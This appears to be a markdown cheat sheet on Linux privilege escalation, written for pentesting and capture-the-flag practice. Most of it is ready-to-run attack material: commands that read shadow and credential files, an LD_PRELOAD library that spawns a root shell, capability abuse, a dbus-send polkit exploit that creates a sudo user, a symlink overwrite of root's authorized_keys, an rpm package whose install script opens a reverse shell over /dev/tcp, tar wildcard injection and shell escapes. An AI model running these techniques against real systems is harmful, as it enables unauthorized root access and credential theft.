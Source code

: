 # Linux Privilege Escalation
## Misconfiguration
- Find writable directories
	`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
	`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
	`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
	`find / -perm /4000 2>/dev/null`
- Find guid binaries
	`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
	`getcap -r / 2>/dev/null`
- Look for cronjob
	`crontab -l`
	`cat /etc/crontab`
- Look for nfs exports
	`cat /etc/exports`
- Find unmounted drives
	`ls /dev 2>/dev/null | grep -i "sd"`
- Look for credentials in fstab
	`grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`
- Look for mounted drives
	`cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null`
- Find hidden files
	`find / -type f -iname ".*" -ls 2>/dev/null`
- Look for backup files
	`find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/null`
- Look for passwd and shadow files
```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
## LD_PRELOAD
If `env_keep += LD_PRELOAD` in sudoers:
```bash
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Capabilities
### cap_setuid+ep
- perl
```perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```

### cap_chown
- python
```python
import os
os.chown("/etc/shadow", 1000, 1000)
```
- ruby
```ruby
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'
```

## Binaries
- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Local exploits
### pwnkit (cve-2021-3560)
- Last vulnerable package (ubuntu) : 0.105-26ubuntu1
- Manual exploit (create attacker user with sudo rights)
```bash
# Create the user
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Create a password
openssl passwd -6 mynewpassword
# Set the password
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

### Overwrite file with symlink
Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup
```bash
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)
```
### yum
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```bash
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### nfs
- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### tar
- Exploit tar with wildcard injection
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root
```

### pkexec
See this writeup for THM's road
https://wiki.thehacker.nz/docs/thm-writeups/road-medium/

## Shell escape sequence
| Tool   | Escape Sequence                                                 |
| ------ | --------------------------------------------------------------- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell`                     |
| awk    | `awk 'BEGIN {system(\"/bin/bash\")}'`                           |
| perl   | `perl -e 'exec \"/bin/bash\";'`                                 |
| find   | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap   | --interactive                                                   |                           


## Tools
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/rebootuser/LinEnum

## Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/
- https://tbhaxor.com/exploiting-linux-capabilities-part-3/

## Writeups
- https://blog.tryhackme.com/skynet-writeup/
- https://s1gh.sh/tryhackme-wonderland/